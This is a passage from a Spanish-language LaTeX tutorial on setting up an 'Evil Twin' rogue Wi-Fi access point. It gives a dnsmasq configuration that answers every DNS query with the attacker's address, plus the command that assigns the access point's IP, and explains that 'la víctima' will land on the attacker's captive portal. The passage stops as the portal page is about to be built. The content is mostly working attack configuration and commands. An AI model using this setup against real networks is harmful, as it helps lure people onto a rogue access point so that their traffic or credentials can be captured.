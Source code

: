 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Configurar dnsmasq (DHCP + DNS)}
Crea \texttt{/tmp/eviltwin-dnsmasq.conf}:

\begin{lstlisting}
sudo nvim /tmp/eviltwin-dnsmasq.conf
\end{lstlisting}

Pega:

\begin{lstlisting}
interface=wlp98s0
dhcp-range=10.0.0.10,10.0.0.50,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
address=/#/10.0.0.1
\end{lstlisting}

\textbf{Explicación:}

\begin{itemize}
  \item \texttt{interface=wlp98s0} - escucha en la interfaz del Evil Twin.
  \item \texttt{dhcp-range} - asigna IPs entre \texttt{10.0.0.10} y
    \texttt{10.0.0.50} con duración de 12 horas.
  \item \texttt{dhcp-option=3,10.0.0.1} - el gateway por defecto que
    los clientes recibirán.
  \item \texttt{dhcp-option=6,10.0.0.1} - el servidor DNS que los
    clientes usarán (nosotros).
  \item \texttt{address=/\#/10.0.0.1} - la ``magia'' del portal cautivo:
    cualquier consulta DNS, sin importar el dominio (\texttt{google.com},
    \texttt{facebook.com}, lo que sea) se resuelve a \texttt{10.0.0.1},
    que somos nosotros. Cuando la víctima abra el navegador para ``ir a
    cualquier sitio'', caerá en nuestro portal.
\end{itemize}

\subsection{Configurar la IP del AP}
Antes de levantar \texttt{hostapd}, asignamos la IP \texttt{10.0.0.1} a
la interfaz que actuará como AP:

\begin{lstlisting}
sudo ip addr add 10.0.0.1/24 dev wlp98s0
\end{lstlisting}

\subsection{Crear el portal cautivo (página web mínima)}
Crea un directorio para el portal:
\end{document}
